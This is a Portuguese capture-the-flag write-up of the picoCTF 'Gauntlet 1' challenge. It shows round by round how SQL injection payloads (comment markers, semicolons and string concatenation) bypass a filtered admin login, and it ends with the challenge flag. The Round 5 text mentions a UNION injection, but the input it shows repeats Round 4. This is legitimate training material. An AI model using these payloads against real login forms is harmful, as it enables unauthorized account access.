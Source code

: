 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução

Ao acessar o site, somos apresentados a uma tela de login onde precisamos fornecer um nome de usuário e senha. O principal desafio aqui é descobrir como "burlar" a filtragem SQL para conseguir logar como o usuário "admin".

![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)

#### Análise Inicial:

Na página de login, ao tentar submeter credenciais genéricas, observamos que o sistema faz uma consulta SQL com base nas entradas fornecidas. O que nos chamou atenção foi que a consulta estava vulnerável a um SQL Injection. Aqui, começamos a explorar como explorar esse tipo de falha.

![image](https://github.com/user-attachments/assets/75983be8-7be6-46fd-a23d-bb24e4897f6c)

**Round 1:**
No primeiro round, a consulta SQL aceita o uso de comentários para ignorar a parte da senha. Isso foi feito utilizando o símbolo --, que serve para comentar tudo após ele na consulta.

**Entrada:**
```
Usuário: admin' --
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'
```

![image](https://github.com/user-attachments/assets/cfa0cf35-6072-4005-8687-220fffe93a8e)

Neste caso, a parte da senha foi ignorada devido ao comentário, permitindo o login com o usuário "admin".

**Round 2:**
No segundo round, foi possível observar que mais palavras-chave estavam permitidas na consulta SQL, como /*, outro tipo de comentário. A ideia era testar se podíamos usar esses novos filtros para burlar a autenticação.

**Entrada:**
```
Usuário: admin' /*
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin' /*' AND password='1'
```
![image](https://github.com/user-attachments/assets/7738cde6-f6ab-4da1-bf65-a3a4ad9867c0)

O filtro continuou permitindo que a parte da senha fosse ignorada e o login fosse feito com sucesso.

**Round 3:**
No terceiro round, a consulta aceitou o uso de ;, que finaliza uma consulta SQL e pode ser usada para iniciar uma nova execução. Testamos esse comportamento para tentar criar uma segunda consulta, mas isso não teve efeito imediato no resultado da aplicação.

**Entrada:**
```
Usuário: admin';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin';' AND password='123'
```
![image](https://github.com/user-attachments/assets/29982171-23a7-4856-aa8c-0b9d03ef0117)

O uso do ; separou as duas partes da consulta, mas a aplicação não alterou a execução.

**Round 4:**
Nesse round, testamos um método diferente de injeção, tentando usar a concatenação para formar o nome de usuário "admin". Isso foi feito com a utilização de ||, que permite a junção de strings em consultas SQL.

**Entrada:**
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
```

![image](https://github.com/user-attachments/assets/eb5ebfc5-0262-4769-bd60-80975db3cd4a)

A aplicação aceitou a injeção e conseguimos passar para o próximo round.

**Round 5:**
Finalmente, no último round, conseguimos usar o comando union para injetar nossa própria consulta SQL e visualizar a flag.

**Entrada:**
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='ad'||'min';' AND password='qualquercoisa'
```

![image](https://github.com/user-attachments/assets/23b8a6ae-6c2e-461f-89ae-145a10999379)

Com isso, conseguimos obter a instrução para acessar o filter.php.

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  
